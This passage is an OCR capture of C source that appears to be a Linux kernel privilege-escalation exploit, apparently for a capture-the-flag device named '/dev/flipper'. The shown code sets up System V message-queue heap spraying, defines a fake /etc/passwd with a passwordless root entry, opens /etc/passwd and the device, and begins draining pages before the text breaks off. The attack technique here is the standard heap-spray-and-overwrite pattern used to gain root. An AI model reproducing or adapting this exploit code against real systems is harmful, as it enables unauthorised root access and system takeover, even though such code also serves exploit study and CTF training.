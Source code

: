 ```c
{
    int ret;
    long msqid;

    assert(size >= 0x30 && msg != NULL);
    msg->mtype = 1;

    msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    if (msqid == -1)
        perror_exit("msgget");

    ret = msgsnd(msqid, msg, size - 0x30, 0);
    if (ret == -1)
        perror_exit("msgsnd");

    return msqid;
}

void get_msg(long msqid, int size)
{
    int ret;
    long msgtyp = 0;
    struct msg *msg;

    assert(size >= 0x30);

    size -= 0x30;
    msg = malloc(sizeof(*msg) + size);

    ret = msgrcv(msqid, msg, size, msgtyp, MSG_NOERROR | IPC_NOWAIT);
    if (ret == -1)
        perror_exit("msgrcv");

    free(msg);
}

const char fake_passwd[] = "root::0:0:root:/root:/bin/sh\n"
"daemon:x:1:1:daemon:/usr/sbin:/bin/false\n"
"bin:x:2:2:bin:/bin:/bin/false\n"
"sys:x:3:3:sys:/dev:/bin/false\n"
"sync:x:4:100:sync:/bin:/bin/sync\n"
"mail:x:8:8:mail:/var/spool/mail:/bin/false\n"
"www-data:x:33:33:www-data:/var/www:/bin/false\n"
"operator:x:37:37:Operator:/var:/bin/false\n"
"nobody:x:65534:65534:nobody:/home:/bin/false\n";

int main()
{
    struct msg *msg;
    char payload[0x100];
    void *mmap_ptrs[MAX_MMAP][SUB_MMAP];

    target_fd = open("/etc/passwd", O_RDONLY);
    dev_fd = open("/dev/flipper", O_RDONLY);
    if (dev_fd == -1)
        perror_exit("open flipper");

    msg = malloc(PAGE_SIZE + sizeof(*msg));
    memset(msg->mtext, 'A', PAGE_SIZE);
    // drain pages
    if (!fork()) {
        // drain pages
        for (int i = 0; i < MAX_MSGS; i++)
```